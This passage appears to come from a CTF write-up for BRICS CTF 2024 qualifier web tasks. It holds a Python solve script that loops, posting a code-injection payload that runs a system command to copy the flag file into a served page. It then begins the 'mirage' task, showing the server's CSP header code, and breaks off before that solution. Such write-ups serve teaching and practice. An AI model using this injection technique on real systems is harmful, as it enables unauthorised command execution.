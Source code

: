 ```python
#!/usr/bin/env python3

import sys
import time
import requests

HOST = sys.argv[1] if len(sys.argv) > 1 else 'localhost'
PORT = int(sys.argv[2]) if len(sys.argv) > 2 else 17171

URL = f'http://{HOST}:{PORT}/villa'

while True:
    try:
        payload = "\n. '); C.system('cat flag.*.txt > villa.html'.str); println(' {\n"
        requests.post(URL, data = payload)

        response = requests.get(URL)
        print(response.content)

        if b'brics+' in response.content:
            break
    except Exception as e:
        print(e)

    time.sleep(2)
```

## mirage

The source code is available here: [https://github.com/C4T-BuT-S4D/bricsctf-2024-quals/tree/master/tasks/web/medium-mirage/deploy/mirage](https://github.com/C4T-BuT-S4D/bricsctf-2024-quals/tree/master/tasks/web/medium-mirage/deploy/mirage).

### Solution

We need to escape CSP restrictions and get the flag from `/flag`. CSP is set only if the cookie `session` is present.

```csharp
if (ctx.GetCookie("session") != null) {
    ctx.SetHeader(
        "Cross-Origin-Resource-Policy", "same-origin"
    );
    ctx.SetHeader(
        "Content-Security-Policy", (
            "sandbox allow-scripts allow-same-origin; " +
            "base-uri 'none'; " +
            "default-src 'none'; " +
            "form-action 'none'; " +
            "frame-ancestors 'none'; " +
            "script-src 'unsafe-inline'; "
        )
    );
}
```
